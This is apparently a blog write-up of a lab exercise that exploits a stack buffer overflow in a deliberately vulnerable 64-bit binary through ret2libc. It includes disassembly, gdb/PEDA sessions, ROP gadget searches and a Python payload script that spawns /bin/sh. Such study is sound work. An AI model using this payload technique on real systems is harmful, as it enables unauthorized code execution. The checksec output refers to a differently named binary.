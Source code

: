 ```yaml
---
title: Exploiting NX
published: true
---
```


For this topic I went with 
[https://blog.techorganic.com/2015/04/21/64-bit-linux-stack-smashing-tutorial-part-2/](Binary can be found here)

### Disassembly

I made an effort to ignore the source code and use disassembly to identify the buffer overflow. I set the assembly flavor to be Intel for easier reading.

```bash
devel@kub:~/challenges/r2libc$ objdump -M intel -d ./ret2libc vuln
<snip>
0000000000401176 <vuln>:
  401176:       f3 0f 1e fa             endbr64 
  40117a:       55                      push   rbp
  40117b:       48 89 e5                mov    rbp,rsp
  40117e:       48 83 ec 60             sub    rsp,0x60
  401182:       48 8d 45 a0             lea    rax,[rbp-0x60]
  401186:       ba 90 01 00 00          mov    edx,0x190
  40118b:       48 89 c6                mov    rsi,rax
  40118e:       bf 00 00 00 00          mov    edi,0x0
  401193:       e8 e8 fe ff ff          call   401080 <read@plt>
  401198:       89 45 fc                mov    DWORD PTR [rbp-0x4],eax
  40119b:       48 8d 55 a0             lea    rdx,[rbp-0x60]
  40119f:       8b 45 fc                mov    eax,DWORD PTR [rbp-0x4]
  4011a2:       89 c6                   mov    esi,eax
  4011a4:       48 8d 3d 59 0e 00 00    lea    rdi,[rip+0xe59]        # 402004 <_IO_stdin_used+0x4>
  4011ab:       b8 00 00 00 00          mov    eax,0x0
  4011b0:       e8 bb fe ff ff          call   401070 <printf@plt>
  4011b5:       48 8d 3d 63 0e 00 00    lea    rdi,[rip+0xe63]        # 40201f <_IO_stdin_used+0x1f>
  4011bc:       e8 9f fe ff ff          call   401060 <puts@plt>
  4011c1:       b8 00 00 00 00          mov    eax,0x0
  4011c6:       c9                      leave  
  4011c7:       c3                      ret    

00000000004011c8 <main>:
  4011c8:       f3 0f 1e fa             endbr64 
  4011cc:       55                      push   rbp
  4011cd:       48 89 e5                mov    rbp,rsp
  4011d0:       48 83 ec 10             sub    rsp,0x10
  4011d4:       89 7d fc                mov    DWORD PTR [rbp-0x4],edi
  4011d7:       48 89 75 f0             mov    QWORD PTR [rbp-0x10],rsi
  4011db:       48 8d 3d 51 0e 00 00    lea    rdi,[rip+0xe51]        # 402033 <_IO_stdin_used+0x33>
  4011e2:       b8 00 00 00 00          mov    eax,0x0
  4011e7:       e8 84 fe ff ff          call   401070 <printf@plt>
  4011ec:       b8 00 00 00 00          mov    eax,0x0
  4011f1:       e8 80 ff ff ff          call   401176 <vuln>
  4011f6:       b8 00 00 00 00          mov    eax,0x0
  4011fb:       c9                      leave  
  4011fc:       c3                      ret    
  4011fd:       0f 1f 00                nop    DWORD PTR [rax]
<snip>
```

The stack space created is 0x60 (96) bytes. We can tell from 
`401198:       89 45 fc                mov    DWORD PTR [rbp-0x4],eax` and
`401182:       48 8d 45 a0             lea    rax,[rbp-0x60]`

that there are two stack variables at least. The first one is 8 bytes (likely an int) which means there must be another 8 bytes of padding. The remaining 0x50 (80) bytes make up the stack buffer

So in the vuln function there is a buffer of at most 0x50 (80) bytes, but read is given a size of 0x190 (400) bytes.


### checksec

Next up is to determine exactly what security protections are in place. 

```bash
devel@kub:~/challenges/bitterman$ checksec --file ./bitterman
[*] '/home/devel/challenges/bitterman/bitterman'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

devel@kub:~/challenges/bitterman$ cat /proc/sys/kernel/randomize_va_space 
0
```

We know that DEP is enabled. DEP can be defeated with ROP.

# Buffer Overflow

The first step in any buffer overflow is find the size of the overflow. I'm using PEDA.

I start gdb on the binary. First step is to make a pattern big enough to guarantee an overflow. 0x60 is 96 bytes, so I'll make a pattern of 500 bytes just to be sure.

```bash
db-peda$ pattern_create 400 in.txt
Writing pattern of 400 chars to filename "in.txt"
```

Next I run the binary with in.txt as input.

```bash
gdb-peda$ r < in.txt
Try to exec /bin/sh
Read 400 bytes. buf is AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKA�
No shell for you :(

Program received signal SIGSEGV, Segmentation fault.
```

64 bit doesn't allow direct manipulation of RIP, so I need to look at RSP to see if I control that

```bash
gdb-peda$ x/wx $rsp
0x7fffffffe508: 0x41413741

gdb-peda$ pattern_offset 0x41413741
1094793025 found at offset: 104
```

The overflow occurs at 104 bytes in

### ROP

NX is enabled so I need to use ROP. I'm going to abuse libc to execute a shell with `system()`

```bash
gdb-peda$ p system
$1 = {<text variable, no debug info>} 0x7ffff7e16410 <system>
```

System takes a single parameter, a string containing the path of what to run. 

```bash
gdb-peda$ find "/bin/sh"
Searching for '/bin/sh' in: None ranges
Found 3 results, display max 3 items:
ret2libc : 0x40203f --> 0x68732f6e69622f ('/bin/sh')
ret2libc : 0x40303f --> 0x68732f6e69622f ('/bin/sh')
    libc : 0x7ffff7f775aa --> 0x68732f6e69622f ('/bin/sh')
```

Finally, we need to put the `/bin/sh` string into RDI. For that we need a ROP gadget

```bash
devel@kub:~/challenges/r2libc$ ropper --file ret2libc --search "% ?di"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: % ?di

[INFO] File: ret2libc
0x000000000040111e: adc dword ptr [rax], edi; test rax, rax; je 0x1130; mov edi, 0x404040; jmp rax; 
0x00000000004010dc: adc edi, dword ptr [rax]; test rax, rax; je 0x10f0; mov edi, 0x404040; jmp rax; 
0x00000000004010de: add byte ptr [rax], al; add byte ptr [rax], al; test rax, rax; je 0x10f0; mov edi, 0x404040; jmp rax; 
0x0000000000401120: add byte ptr [rax], al; add byte ptr [rax], al; test rax, rax; je 0x1130; mov edi, 0x404040; jmp rax; 
0x00000000004010e0: add byte ptr [rax], al; test rax, rax; je 0x10f0; mov edi, 0x404040; jmp rax; 
0x0000000000401122: add byte ptr [rax], al; test rax, rax; je 0x1130; mov edi, 0x404040; jmp rax; 
0x00000000004011b0: call 0x1070; lea rdi, [rip + 0xe63]; call 0x1060; mov eax, 0; leave; ret; 
0x00000000004010db: je 0x10f0; mov eax, 0; test rax, rax; je 0x10f0; mov edi, 0x404040; jmp rax; 
0x00000000004010e5: je 0x10f0; mov edi, 0x404040; jmp rax; 
0x000000000040111d: je 0x1130; mov eax, 0; test rax, rax; je 0x1130; mov edi, 0x404040; jmp rax; 
0x0000000000401127: je 0x1130; mov edi, 0x404040; jmp rax; 
0x00000000004011b6: lea edi, [rip + 0xe63]; call 0x1060; mov eax, 0; leave; ret; 
0x00000000004011b5: lea rdi, [rip + 0xe63]; call 0x1060; mov eax, 0; leave; ret; 
0x00000000004010dd: mov eax, 0; test rax, rax; je 0x10f0; mov edi, 0x404040; jmp rax; 
0x000000000040111f: mov eax, 0; test rax, rax; je 0x1130; mov edi, 0x404040; jmp rax; 
0x00000000004011b1: mov ebx, 0x48fffffe; lea edi, [rip + 0xe63]; call 0x1060; mov eax, 0; leave; ret; 
0x00000000004010b2: mov edi, 0x4011c8; call qword ptr [rip + 0x2f32]; hlt; nop; endbr64; ret; 
0x00000000004010e7: mov edi, 0x404040; jmp rax; 
0x00000000004010b1: mov rdi, 0x4011c8; call qword ptr [rip + 0x2f32]; hlt; nop; endbr64; ret; 
0x00000000004010e6: or dword ptr [rdi + 0x404040], edi; jmp rax; 
0x0000000000401263: pop rdi; ret; 
0x00000000004010e3: test eax, eax; je 0x10f0; mov edi, 0x404040; jmp rax; 
0x0000000000401125: test eax, eax; je 0x1130; mov edi, 0x404040; jmp rax; 
0x00000000004010e2: test rax, rax; je 0x10f0; mov edi, 0x404040; jmp rax; 
0x0000000000401124: test rax, rax; je 0x1130; mov edi, 0x404040; jmp rax; 
```

### stack alignment

When running my exploit, I kept getting a crash on the following

`movaps XMMWORD PTR [rsp+0x40],xmm0`

[https://stackoverflow.com/questions/54393105/libcs-system-when-the-stack-pointer-is-not-16-padded-causes-segmentation-faul](How to fix segfault)

tl;dr stack alignment MUST be 16 bytes. My shell code was 12. Pad it with a single ret ROP gadget

```bash
devel@kub:~/challenges/r2libc$ ropper --file ret2libc --search "ret"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: ret

[INFO] File: ret2libc
0x000000000040101a: ret; 
```


### python

```py
#!/usr/bin/python3
import struct

buflen = 104

payload = b"A" * buflen

#payload += struct.pack("<Q", 0x00000000004006a3)   # pop rdi; ret
#payload += struct.pack("<Q", 0x4006ff)             # ptr to "/bin/sh"
#payload += struct.pack("<Q", 0x7ffff7e16410)       # address of system()

payload += struct.pack("<Q", 0x000000000040101a)    # alignment ret; 
payload += struct.pack("<Q", 0x0000000000401263)    # pop rdi; ret 
payload += struct.pack("<Q", 0x40303f)              # ptr to "/bin/sh"
payload += struct.pack("<Q", 0x7ffff7e16410)        # address of system()


f = open("in.txt", "wb")
f.write(payload)
f.close()
```

